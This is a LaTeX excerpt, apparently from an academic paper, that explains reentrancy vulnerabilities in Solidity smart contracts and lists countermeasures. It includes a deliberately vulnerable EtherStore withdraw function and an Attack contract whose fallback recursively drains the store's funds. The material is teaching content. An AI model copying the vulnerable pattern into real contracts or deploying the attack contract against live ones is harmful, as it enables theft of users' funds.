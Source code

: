 \documentclass[a4paper,sigconf, language=french,
language=german, language=spanish, language=english]{acmart}
\begin{document}
\subsection{Reentrancy} It is one of the vulnerabilities much more exploited during the recent year. 
Many attacks occured and could steal great amount of many to vulnerable protocol. 
A reentrancy attack can occur when a function makes an external call to another untrusted contract 
before it resolves any effects. 
A recursive call back to the original function is made by the attacker, before 
the function could updated the state of the state of the variables. 
The goal is repeating interactions that would have otherwise not run after the effects were resolved. 
The function withdraw, line 8 to 16 \autoref{lst:Reentrancy}, implements this bug, because the balance of the user is updated after the external call. 
The attacker, with the usage of a malicious smart contract, can call again the vulnerable function. 
It is run multiple time, without updating the balance, withrawing all the funds. There are several countermeasures for this type of bug: 
semaphores logic can be implemented with the modifiers, the update of the variable can be moved before the external call. 
The external call can be safe if the developer checks the amount of gas used, in order to avoid an attacker can modify the control flow. 
One of the foundamental of this attack is the usage of fallback by the malicious contract.
\begin{lstlisting} [language=Solidity, caption={Reentrancy}, label={lst:Reentrancy}]
contract EtherStore {
    mapping(address => uint) public balances;
    ...
    //vulnerable function exploited by the attacker
    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }
}


contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

}
  
\end{lstlisting}
\end{document}
